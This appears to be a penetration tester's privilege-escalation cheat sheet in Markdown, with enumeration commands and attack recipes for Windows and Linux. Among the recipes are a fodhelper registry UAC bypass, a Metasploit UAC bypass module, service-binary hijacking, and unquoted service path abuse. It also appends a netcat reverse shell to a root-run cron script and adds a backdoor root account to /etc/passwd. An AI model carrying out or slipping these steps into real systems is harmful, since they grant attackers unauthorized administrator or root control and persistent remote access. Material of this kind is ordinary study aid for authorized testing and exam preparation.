 ### Windows
##### Processes(Windows can't list processes run by privileged users)
tasklist /svc
##### Firewall
netsh advfirewall show currentprofile  
netsh advfirewall show allprofile  
netsh advfirewall firewall show rule name=all
##### Scheduled Tasks
schtasks /query /fo LIST /v
##### Enumerating Unmounted Disks
mountvol
##### Enumerating Device Drivers and Kernel Modules
1. driverquery /v /FO Table  
2. Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
##### Enumerating Binaries That AutoElevate
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer  
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
##### Bypass UAC
```
1. check C:\Windows\System32\fodhelper.exe
2. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
3. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
4. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
5. run fodhelper.exe, whoami /groups
```
Check UAC level: whoami /groups
```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set target 1(x64,0=x86)
Note to set payload the same arch with session 1's payload，set lhost and lport same with session 1
```
##### Insecure File Permissions
```
1. Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} # look for services with path in Program Files
2. icacls "service path"
3. replace malicious exe with service executable
4. Get-WmiObject -Class Win32_Service -Property StartMode -Filter "Name='Service Name'"
5. whoami /priv #check out shutdown privileges of user
```
##### Unquoted Service Paths
```
Service Path:
C:\Program Files\My Program\My Service\service.exe
The Service will run the executable in path like this:
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

For example, we could name our executable Program.exe and place it in C:\, or name it My.exe and place it in C:\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.
C:\Users\alex>icacls "C:\Puppet"
C:\Puppet BUILTIN\Users:(W)
          BUILTIN\Administrators:(I)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
          BUILTIN\Users:(I)(OI)(CI)(RX)
          NT AUTHORITY\Authenticated Users:(I)(M)
          NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

It is more likely that the software's main directory (C:\Program Files\My Program in our example) or subdirectory (C:\Program Files\My Program\My service) is misconfigured, allowing us to plant a malicious My.exe binary
```

### Linux
##### Kernel exploits
```
OS version:
cat /etc/issue  
cat /etc/*-release  
Kernel Version and Architecture: 
uname -a
```
##### Processes(Linux can list processes run by privileged users)
ps aux
##### Enumerating Readable/Writable Files and Directories
find / -writable(-readable,-executable) -type d(f) 2>/dev/null  
##### Enumerating Unmounted Disks
mount  
lsblk
##### Enumerating Device Drivers and Kernel Modules
1. lsmod  
2. /sbin/modinfo libata
##### Enumerating Binaries That AutoElevate
>Normally, when running an executable, it inherits the permissions of the user that runs it. However, if the SUID permissions are set, the binary will run with the permissions of the file owner. This means that if a binary has the SUID bit set and the file is owned by root, any local user will be able to execute that binary with elevated privileges
 ```
 find / -perm -u=s -type f 2>/dev/null
 ```
 ##### Cronjob to elevate privilege
 ```
 1. grep "CRON" /var/log/cron.log
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
2. ls -lah /var/scripts/user_backups.sh
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
3. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
4. nc -lnvp 1234
 ```
 ##### Insecure file permission /etc/passwd
 ```
 1. check if users have write permission
 2. openssl passwd evil:
 $1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1
 IozRIqhlxS7jo
 3. echo "root2:$1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1:0:0:root:/root:/bin/bash" >> /etc/passwd
 4. su root2, enter passwd as evil
 ```
  ##### Insecure file permission /usr/bin/vim.basic
  ```
  vim.basic basically can view any file with root permission if it has suid set, also it can edit /etc/passwd
  ```
